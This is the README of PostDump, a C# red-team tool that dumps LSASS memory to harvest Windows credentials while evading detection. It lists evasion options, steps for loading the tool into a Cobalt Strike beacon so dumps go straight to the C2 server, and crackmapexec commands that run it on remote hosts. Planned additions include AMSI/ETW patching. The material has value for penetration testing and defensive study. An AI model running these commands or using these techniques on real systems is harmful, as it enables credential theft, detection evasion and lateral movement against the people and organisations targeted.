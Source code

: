 # PostDump

----

PostDump is a C# tool developt by COS team (CyberForce Offensive Security) of POST Luxembourg.

It is yet another simple tool to perform a LSASS memory dump using few technics to avoid detection.

![screenshot](resources/demo.png)

New PostDump version include C# / .NET implementation of the famous NanoDump's `NanoDumpWriteDump` function, which permit to dump most important LSASS modules only, without calling `MiniDumpWriteDump` Windows API function.
The dump logic code is saved under the `POSTMinidump` project, feel free to use it for your own C# / .NET project.

Such as NanoDump, you can encrypt or use an invalid signature for the minidump, but also use BOFNET to avoid touching disk and download file to CobaltStrike C2 directly.


## Usage

Dump LSASS:

    c:\Temp>PostDump.exe --help

    -o, --output        output filename [default: Machine_datetime.dmp]

    -e, --encrypt       Encrypt dump in-memory

    -s, --signature     Generate invalid Minidump signature

    --snap              Use snapshot technic

    --fork              Use fork technic [default]

    --elevate-handle    Open a handle to LSASS with low privileges and duplicate it to gain higher privileges

    --help              Display this help screen.
  
    --version           Display version information.



## BOFNET

To use PostDump with Cobaltstrike, you must download and compile [BOFNET](https://github.com/CCob/BOF.NET):
- Build PostDump and place CommandLine.dll file into same folder as BOFNET.cna
- import the .cna file into your cobalt
- `beacon> bofnet_init`
- `beacon> bofnet_load PostDump.exe`
- `beacon> bofnet_execute POSTDump.BOFNET [args]`


## CME and LSASSY modules
- Both use embedded base64 binary and autoclean
- Will not work with --encrypt or --signature
- copy CME-module/postdump.py into your CME modules folder
- copy LSASSY-module/postdump.py into your LSASSY modules folder
- `crackmapexec smb x.x.x.x -u user -p 'password' -M postdump [--options]`
- `crackmapexec smb x.x.x.x -u user -p 'password' -M lsassy -o METHOD=postdump`


## Improvements idea
- Use Syscalls instead of Dinvoke
- AMSI/ETW patching
- Implement more dump technics (duplicate handle, seclogon ..)


## Compilation
- You can build using .NET Framework 4.5.1 as-is.
- Depending of the CLR version installed on the system where you execute PostDump, you may need to downgrade to .NET 3.5 [more info here](https://learn.microsoft.com/fr-fr/dotnet/framework/migration-guide/versions-and-dependencies)
- If you downgrade to .NET Framework 3.5, you'll need to downgrade CommandLineParser dependance too


## Credit
- TheWover for the C# implementation of [DInvoke](https://github.com/TheWover/DInvoke)
- [_EthicalChaos_](https://twitter.com/_EthicalChaos_) for the project [BOFNET](https://github.com/CCob/BOF.NET)
- [s4ntiago_p](https://twitter.com/s4ntiago_p) for the awesome NanoDump tool and its implementation of the lsass dump logic (among all other cool stuff)
